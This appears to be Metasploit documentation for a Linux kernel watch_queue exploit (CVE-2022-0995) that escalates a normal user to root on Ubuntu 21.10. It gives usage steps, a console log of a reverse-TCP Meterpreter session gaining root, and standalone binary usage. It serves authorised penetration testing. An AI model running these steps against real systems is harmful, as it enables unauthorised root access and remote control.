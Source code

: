 ## Vulnerable Application

This module exploits a vulnerability in the Linux Kernel's watch_queue event
notification system. It relies on a heap out-of-bounds write in kernel memory.
The exploit may fail on the first attempt so multiple attempts may be needed.
Note that the exploit can potentially cause a denial of service if multiple
failed attempts occur, however this is unlikely.

### Install

The vulnerability exists in linux kernel versions up to 5.17 rc8; this module only contains offsets for Ubuntu 21.10
kernel 5.13.0-37. More offsets may be added later.

Install Ubuntu 21.10
`apt-get install linux-image-5.13.0-37-generic`
Hold shift when you reboot and select the proper kernel version

## Verification Steps

1. Make an Ubuntu target.
1. Create a Meterpreter or shell payload and upload it to the Ubuntu target.
1. Set up a handler for the payload.
1. Launch the payload as a regular user on the Ubuntu target.
1. Do: `use exploit/linux/local/cve_2022_0995_watch_queue`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a new shell as the `root` user.

## Options

### COMPILE

[Auto|True|False] This selects the binary to use. `True` will cause the module to upload the source
code and perform compilation on target, `False` will cause the module to upload a precompiled binary.
`Auto` will cause the module to try compiling the exploit on the target but will fall back to the
precompiled option if a compiler cannot be found.

### DEBUG_SOURCE
[True|False] This selects whether or not the module should use source code with debug prints when
uploading and compiling on disk. If set to `True` the module will use source code with prints
that assist with troubleshooting failed exploits. If set to `False` the module will use source code
without these debug statements/prints. Note if it is not possible to compile the code on the target,
the precompiled binary will be used which has no debug print statements.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios

### Ubuntu 21.10 x64 With Linux 5.13.0.37-Generic

```
msf6 payload(linux/x64/meterpreter/reverse_tcp) >
[*] Started reverse TCP handler on 10.5.135.101:4567
[*] Sending stage (3020772 bytes) to 10.5.134.157
[*] Meterpreter session 1 opened (10.5.135.101:4567 -> 10.5.134.157:34614 ) at 2022-04-12 21:04:39 -0500

msf6 payload(linux/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 1...
msf6 payload(linux/x64/meterpreter/reverse_tcp) > use exploit/linux/local/cve_2022_0995_watch_queue
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > show options

Module options (exploit/linux/local/cve_2022_0995_watch_queue):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   COMPILE       Auto             yes       Compile on target (Accepted: Auto, True, False)
   DEBUG_SOURCE  false            no        Use source code with debug prints to help troubleshoot
   SESSION                        yes       The session to run this module on


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.101     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Ubuntu Linux 5.13.0-37


msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set session 1
session => 1
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > set verbose true
verbose => true
msf6 exploit(linux/local/cve_2022_0995_watch_queue) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[+] The target appears to be vulnerable.
[*] Version array: ["5.13.0", "37", "generic"]
[*] major_version: 5.13.0
[*] minor_version: 37
[*] Creating directory /tmp/.nILfP259
[*] /tmp/.nILfP259 created
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.nILfP259/.7BZngDv' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.nILfP259/.gJKqSJssjC /tmp/.nILfP259/.7BZngDv
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3020772 bytes) to 10.5.134.157
[+] Deleted /tmp/.nILfP259/.gJKqSJssjC
[+] Deleted /tmp/.nILfP259
[*] Meterpreter session 2 opened (10.5.135.101:4444 -> 10.5.134.157:50382 ) at 2022-04-12 21:05:25 -0500
[*]

meterpreter > sysinfo
Computer     : 10.5.134.157
OS           : Ubuntu 21.10 (Linux 5.13.0-37-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Notes

### Included Binaries
The binary used by this exploit `data/exploits/CVE-2022-0995/cve_2021_3493.x64.elf` can be used separately from
Metasploit. The binary takes a single argument which is the payload or executable you wish to launch as `root`.

The following snippet shows an example of how one might run this binary with the `/bin/bash` executable to get
a new Bash shell as the `root` user.

```
msfuser@msfuser-virtual-machine:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@msfuser-virtual-machine:~$ ./cve_2021_3493.x64.elf /bin/bash
root@msfuser-virtual-machine:~$
```
